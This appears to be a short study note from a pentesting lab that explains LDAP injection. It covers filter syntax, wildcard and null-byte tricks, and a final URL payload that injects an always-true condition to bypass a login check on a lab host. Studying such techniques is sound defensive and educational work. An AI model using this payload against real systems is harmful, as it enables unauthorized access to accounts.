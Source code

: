 ```yaml
---
tags: ldap

---
```

The most common injection type let’s use inject into a filter.

First, here is the usual syntax to retrieve a user:

```ldap
(cn=[INPUT])
```

Here is how you would add some boolean logic: 

OR: `(|(cn=[INPUT1])(cn=[INPUT2]))`
AND: `(&(cn=[INPUT1])(userPassword=[INPUT2]))`

```ad-note
We can see that the logic is before the filter, so it’s not always possible to insert new logic.
```

`*`, wildcard, match several things

`%00`, nullbytes: ignore the rest of the filter

### Example:

- `username=hacker&password=hacker` we get authenticated (this is the normal request).
- `username=hack*&password=hacker` we get authenticated (the wildcard matches the same value).
- `username=hacker&password=hac*` we don't get authenticated (the password may likely be hashed).

Let’s use wildcard to bypass auth:

Based on our previous tests, we can deduce that the filter might look something like:
```ldap
(&(cn=[INPUT1])(userPassword=HASH[INPUT2]))
```

This usually only allows you to bypass security checks.

So what do we do:

- The end of the current filter using hacker).
- An always-true condition ((cn=*) for example)
- A ) to keep a valid syntax and close the first (.
- A NULL BYTE (%00) to get rid of the end of the filter.

This is how a final payload might look like:

```url
http://ptl-149f4d75-6e8ca3b1.libcurl.so/?name=a*)(cn=*))%00&password=admin
```